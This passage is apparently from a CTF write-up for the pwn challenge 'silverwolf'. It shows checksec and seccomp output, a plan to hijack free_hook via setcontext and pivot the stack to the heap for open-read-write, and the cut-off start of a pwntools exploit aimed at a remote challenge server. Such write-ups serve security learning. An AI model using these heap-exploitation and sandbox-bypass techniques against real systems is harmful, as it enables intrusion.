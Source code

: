 ```python
p.interactive()
```



### silverwolf:

有点小阴间 上一个题目的orw加强版

题目 libc 提取码：GAME

checksec：

> ```properties
>     Arch:     amd64-64-little
>     RELRO:    Full RELRO
>     Stack:    Canary found
>     NX:       NX enabled
>     PIE:      PIE enabled
>     FORTIFY:  Enabled
> ```

> ```properties
>  line  CODE  JT   JF      K
> =================================
>  0000: 0x20 0x00 0x00 0x00000004  A = arch
>  0001: 0x15 0x00 0x07 0xc000003e  if (A != ARCH_X86_64) goto 0009
>  0002: 0x20 0x00 0x00 0x00000000  A = sys_number
>  0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
>  0004: 0x15 0x00 0x04 0xffffffff  if (A != 0xffffffff) goto 0009
>  0005: 0x15 0x02 0x00 0x00000000  if (A == read) goto 0008
>  0006: 0x15 0x01 0x00 0x00000001  if (A == write) goto 0008
>  0007: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0009
>  0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW
>  0009: 0x06 0x00 0x00 0x00000000  return KILL
> ```

#### 思路：

> 下面都是binLep师傅附体 XD

跟上题思路差不多 只是将free_hook改为了setcontext 然后栈迁移到堆上进行orw



#### exp：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
debug = 2
context(arch='amd64', endian='el', os='linux')
context.log_level = 'debug'
if debug == 1:
    p = process(['./chall'])
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
else:
    p = remote('124.71.231.29', 20759)
    libc = ELF('./libc-2.27.so', checksec=False)
elf = ELF('./chall', checksec=False)
def add(size):
    p.sendlineafter("Your choice: ","1")
    p.sendlineafter("Index: ",str(0))
    p.sendlineafter("Size: ",str(size)) #<0x78
def edit(content):
    p.sendlineafter("Your choice: ","2")
    p.sendlineafter("Index: ",str(0))
```